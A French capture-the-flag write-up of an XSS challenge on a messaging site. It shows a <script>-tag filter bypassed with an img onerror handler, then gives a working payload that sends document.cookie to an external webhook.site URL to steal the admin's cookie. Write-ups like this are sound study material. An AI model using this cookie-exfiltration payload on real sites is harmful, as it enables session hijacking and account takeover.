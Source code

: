 
# Whatsup

Challenge d'injection XSS. 

On se retrouve sur l'interface d'un site de messagerie. On se doute rapidement que l'objectif ici est de récupérer le cookie stocké par le biais d'une injection dans l'input d'envoie de message.

![xss image](xss1.PNG "site")

On test alors l'envoi d'une balise

```HTML
<script></script>
```

On remarque que cette balise est filtré

![xss image](xss2.PNG "site")


On remarque rapidement que les autres balises utilisées dans des injections ne sont pas filtrées et permettent ici l'injection.

Exemple avec cette injection :

```HTML
<img/onerror="alert(1)"src=a>
```

![xss image](xss3.PNG "injection alert")

On sait que cette injection fonctionne. On va donc l'utiliser et insérer dans le onerror :

```HTML
<img/onerror="document.location='https://webhook.site/3c453a1d-be74-4bcd-bca7-ac65d8a45136?c='+document.cookie"src="">
```

Ce payloads va venir charger l'url dans un webhook et charge les informations qu'on lui demande. Ici c'est document.cookie qu'on charge dans une variable c.
On va venir charger la liste des cookies.

On envoie le message et on attends une réponse sur notre webhooks. 

Après quelques secondes, notre webhooks réussi à récupérer un cookie qui ressemble à notre flag

![xss image](xss4.PNG "injection cookie")
